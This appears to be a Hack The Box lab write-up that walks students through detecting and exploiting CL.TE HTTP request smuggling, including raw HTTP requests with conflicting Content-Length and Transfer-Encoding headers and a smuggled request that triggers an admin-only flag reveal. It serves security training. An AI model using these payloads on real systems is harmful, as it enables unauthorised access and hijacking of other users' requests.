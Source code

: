 ![[HTB Solutions/CWEE/z. images/465b3c82f2bfaac6e990f6807592492e_MD5.jpg]]

![[HTB Solutions/CWEE/z. images/8e380a4714e5e60cdfe12e9020a2ae8d_MD5.jpg]]

Since only the admin is allowed to reveal the flag, students need to test if the setting/deployment of the application/system is vulnerable to `CL.TE`, where the reverse proxy does not support chunked encoding, whereby if a request contains both `Content-Length` and `Transfer-Encoding`, the reverse proxy will incorrectly utilize the `Content-Length` header to determine the request length. In contrast, the web server will correctly utilize the `Transfer-Encoding` header to determine the request length.

Within `Repeater`, students need to have two tabs open with two requests, the first being a POST request to `/`:

Code: http

```http
POST / HTTP/1.1
Host: STMIP:STMPO
Content-Length: 10
Transfer-Encoding: chunked

0

HELLO
```

![[HTB Solutions/CWEE/z. images/62dd893e525d90ce6437eaae0d9fb1f7_MD5.jpg]]

While the second is a GET request to `/`:

Code: http

```http
GET / HTTP/1.1
Host: STMIP:STMPO
```

![[HTB Solutions/CWEE/z. images/bdf77ad2428f1ac93bb9816076ebba40_MD5.jpg]]

Students need to send the POST request first and then send the second GET one very rapidly. Attaining `405 Not Allowed` for the GET request to `/` indicates that the application deployment is vulnerable to `CL.TE`:

![[HTB Solutions/CWEE/z. images/36e94375597d4d9c55873a18a9ebdc23_MD5.jpg]]

Now that students have confirmed the deployment vulnerable to `CL.TE`, they need to coerce the admin into revealing the flag by sending a GET request to `/admin.php?reveal_flag=1`:

Code: http

```http
POST / HTTP/1.1
Host: STMIP:STMPO
Content-Length: 59
Transfer-Encoding: chunked

0

GET /admin.php?reveal_flag=1 HTTP/1.1
DoesNotMatter:
```
